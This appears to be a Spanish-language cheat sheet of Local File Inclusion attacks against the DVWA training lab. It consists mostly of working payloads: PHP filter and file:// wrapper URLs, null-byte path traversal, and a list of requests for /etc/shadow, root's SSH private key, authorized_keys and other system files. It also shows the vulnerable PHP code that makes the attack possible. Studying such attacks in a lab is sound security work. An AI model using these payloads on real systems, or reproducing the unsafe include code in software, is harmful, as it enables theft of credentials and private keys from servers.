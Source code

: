     ====>ENCODING WRAPPER "base64"
    http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/etc/passwd
    cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb==
    ====>NULL BYTE INJECTION
    http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../../etc/passwd%00
    http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/passwd%00


# _enumerar archivos del sistema linux si contiene una vulnerabilidad LFI_
    
    #High File Inclusion Source
    <?php
    // The page we wish to display
    $file = $_GET[ 'page' ];
    // Input validation
    if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
        // This isn't the page we want!
        echo "ERROR: File not found!";
        exit;
    }
    ?>
    #como vemos no podemos hacer *path traversal* lo que podemos es usar ""wrappers"" de la siguientes formas

    #http://localhost/vulnerabilities/fi/?page=file:///etc/passwd
    #http://localhost/vulnerabilities/fi/?page=file:///etc/hostname
    #http://localhost/vulnerabilities/fi/?page=file:///etc/hosts
    #http://localhost/vulnerabilities/fi/?page=file:///etc/issue
    #http://localhost/vulnerabilities/fi/?page=file:///etc/group
    #http://localhost/vulnerabilities/fi/?page=file:///proc/net/fib_trie
    #http://localhost/vulnerabilities/fi/?page=file:///proc/net/tcp
    #http://localhost/vulnerabilities/fi/?page=file:///proc/sched_debug
    #http://localhost/vulnerabilities/fi/?page=file:///etc/ssh/ssh_config
    #http://localhost/vulnerabilities/fi/?page=file:///etc/shadow/
    #http://localhost/vulnerabilities/fi/?page=file:///etc/ssh/ssh_config/
    #http://localhost/vulnerabilities/fi/?page=file:///etc/ssh/sshd_config/
    #http://localhost/vulnerabilities/fi/?page=file:///root/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=file:///root/.ssh/authorized_keys
    #http://localhost/vulnerabilities/fi/?page=file:///home/user/.ssh/id_rsa
    #http://localhost/vulnerabilities/fi/?page=file:///home/user/.ssh/authorized_keys

    #http://localhost/vulnerabilities/fi/?page=php://filter/convert.base64-encode/resource=/etc/passwd


# _Null Byte:_
    Es habitual encontrarnos con php que permiten LFI y nos añaden una extensión:

    <?
      $file = $_GET['file'];
      require($file . ".php");
    ?>
    http://ex.com/index.php?page=../../../etc/passwd%00
